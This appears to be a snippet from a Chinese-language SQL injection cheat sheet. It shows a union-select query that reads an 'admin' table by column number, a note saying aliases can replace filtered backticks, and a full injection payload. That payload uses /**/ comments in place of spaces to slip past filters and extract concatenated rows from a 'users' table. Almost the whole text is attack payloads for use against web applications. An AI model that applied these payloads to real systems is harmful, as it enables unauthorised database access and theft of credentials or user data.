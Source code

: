 ```text
select `3` from (select 1,2,3 union select * from admin)a;
```

反引号如果被过滤就用别名来代替

实例:

```
1'/**/union/**/select/**/1,(select/**/concat(a,b,c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)d/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```


